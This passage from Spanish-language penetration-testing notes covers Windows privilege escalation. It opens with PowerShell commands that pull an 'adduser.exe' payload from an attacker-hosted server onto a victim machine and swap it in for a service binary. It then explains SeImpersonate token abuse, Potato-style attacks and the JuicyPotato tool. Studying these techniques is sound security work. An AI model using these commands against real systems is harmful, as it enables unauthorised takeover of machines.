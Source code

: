 Creamos un servidor HTTP con Python y transferimos el binario a la máquina víctima.

```powershell
iwr -uri http://192.168.56.5/adduser.exe -Outfile <BINARY>.exe
```

Movemos el binario a la ruta del binario original para remplazarlo.

```powershell
move .\<BINARY>.exe C:\Ruta\Al\Binario\
```

##### SeImpersonate y SeAssignPrimaryToken

En Windows, cada proceso tiene asociado un **token** que contiene información sobre la cuenta que lo está ejecutando, como los permisos y privilegios asociados. Sin embargo, estos tokens **no se consideran recursos completamente seguros**, ya que residen en la memoria del sistema y, en teoría, podrían ser vulnerables a ataques de fuerza bruta o manipulación por parte de usuarios malintencionados con acceso limitado. Para utilizar un token y realizar acciones en nombre de otro usuario (por ejemplo, mediante la función `CreateProcessWithTokenW`), se requiere el privilegio **SeImpersonate**. Este privilegio está generalmente reservado para cuentas administrativas y servicios de alto nivel, como los que se ejecutan bajo las cuentas `SYSTEM` o `Local Service`.

Durante el proceso de **endurecimiento del sistema** (hardening), este privilegio puede ser eliminado o restringido como medida de seguridad.

> En Windows, cada proceso tiene un token que contiene información sobre la cuenta que lo está ejecutando. 

Los programas legítimos en Windows pueden utilizar el token de otro proceso para escalar privilegios, pasando de una cuenta de Administrador a Local System, que tiene permisos más amplios y acceso completo al sistema. Esto se logra típicamente mediante una llamada al proceso WinLogon, que es responsable de gestionar los inicios de sesión y los tokens de seguridad. Al interactuar con WinLogon, un proceso puede obtener un token del sistema y luego ejecutarse con ese token, efectivamente operando dentro del contexto de Local System.

Sin embargo, este mecanismo también puede ser explotado por atacantes en técnicas de escalada de privilegios, como los ataques del estilo "Potato". Estos ataques aprovechan el privilegio SeImpersonate, que permite a un proceso suplantar el token de otro usuario. Aunque una cuenta de servicio puede tener el privilegio SeImpersonate, no tiene acceso completo a los privilegios de nivel SYSTEM. El ataque Potato engaña a un proceso que se ejecuta como SYSTEM para que se conecte a un proceso controlado por el atacante. Una vez establecida la conexión, el atacante puede robar el token del proceso SYSTEM y utilizarlo para ejecutar código con privilegios elevados.

Varias herramientas y técnicas aprovechan SeImpersonatePrivilege y SeAssignPrimaryTokenPrivilege para escalar privilegios a SYSTEM o Administrador. A continuación, se presentan algunas de ellas:

###### JuicyPotato.exe

> *Windows 10 compilación 1809 - Windows Server 2016*

> https://github.com/ohpe/juicy-potato

JuicyPotato es una herramienta de explotación diseñada para abusar de los privilegios SeImpersonate o SeAssignPrimaryToken en sistemas Windows. Estos privilegios, comúnmente asignados a cuentas de servicio, permiten a un proceso suplantar tokens de seguridad de otros usuarios. JuicyPotato aprovecha esta capacidad mediante ataques de reflexión DCOM/NTLM, engañando a un proceso que se ejecuta con privilegios de SYSTEM para que se conecte a un servicio controlado por el atacante. Una vez establecida la conexión, el atacante puede robar el token de SYSTEM y utilizarlo para ejecutar código con privilegios elevados.
